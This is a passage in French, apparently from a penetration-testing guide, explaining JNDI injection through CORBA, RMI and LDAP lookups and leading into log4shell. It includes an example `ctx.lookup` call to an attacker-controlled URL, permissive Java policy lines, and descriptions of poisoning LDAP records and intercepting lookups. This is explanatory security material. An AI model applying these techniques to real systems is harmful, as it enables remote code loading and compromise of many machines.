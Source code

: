 Même si vous avez défini un **`PROVIDER_URL`**, vous pouvez en indiquer un différent dans une recherche et il sera accessible : `ctx.lookup("<attacker-controlled-url>")` et c'est ce qu'un attaquant abuserez pour charger des objets arbitraires à partir d'un système qu'il contrôle.

### Aperçu de CORBA

CORBA (Common Object Request Broker Architecture) utilise une **Référence d'Objet Interopérable (IOR)** pour identifier de manière unique les objets distants. Cette référence inclut des informations essentielles telles que :

- **Type ID** : Identifiant unique pour une interface.
- **Codebase** : URL pour obtenir la classe stub.

Notamment, CORBA n'est pas intrinsèquement vulnérable. Assurer la sécurité implique généralement :

- Installation d'un **Gestionnaire de Sécurité**.
- Configuration du Gestionnaire de Sécurité pour permettre les connexions à des codebases potentiellement malveillantes. Cela peut être réalisé par :
- Permission de socket, par exemple, `permissions java.net.SocketPermission "*:1098-1099", "connect";`.
- Permissions de lecture de fichiers, soit universellement (`permission java.io.FilePermission "<<ALL FILES>>", "read";`) ou pour des répertoires spécifiques où des fichiers malveillants pourraient être placés.

Cependant, certaines politiques de fournisseurs peuvent être indulgentes et permettre ces connexions par défaut.

### Contexte RMI

Pour RMI (Remote Method Invocation), la situation est quelque peu différente. Comme avec CORBA, le téléchargement de classes arbitraires est restreint par défaut. Pour exploiter RMI, il faudrait généralement contourner le Gestionnaire de Sécurité, un exploit également pertinent dans CORBA.

### LDAP

Tout d'abord, nous devons faire la distinction entre une recherche et une recherche de nom.\
Une **recherche** utilisera une URL comme `ldap://localhost:389/o=JNDITutorial` pour trouver l'objet JNDITutorial à partir d'un serveur LDAP et **récupérer ses attributs**.\
Une **recherche de nom** est destinée aux **services de nommage** car nous voulons obtenir **tout ce qui est lié à un nom**.

Si la recherche LDAP a été invoquée avec **SearchControls.setReturningObjFlag() avec `true`, alors l'objet retourné sera reconstruit**.

Par conséquent, il existe plusieurs façons d'attaquer ces options.\
Un **attaquant peut empoisonner les enregistrements LDAP en introduisant des charges utiles** sur eux qui seront exécutées dans les systèmes qui les collectent (très utile pour **compromettre des dizaines de machines** si vous avez accès au serveur LDAP). Une autre façon d'exploiter cela serait de réaliser une **attaque MitM dans une recherche LDAP**, par exemple.

Dans le cas où vous pouvez **faire en sorte qu'une application résolve une URL JNDI LDAP**, vous pouvez contrôler le LDAP qui sera recherché, et vous pourriez renvoyer l'exploit (log4shell).

#### Exploit de désérialisation
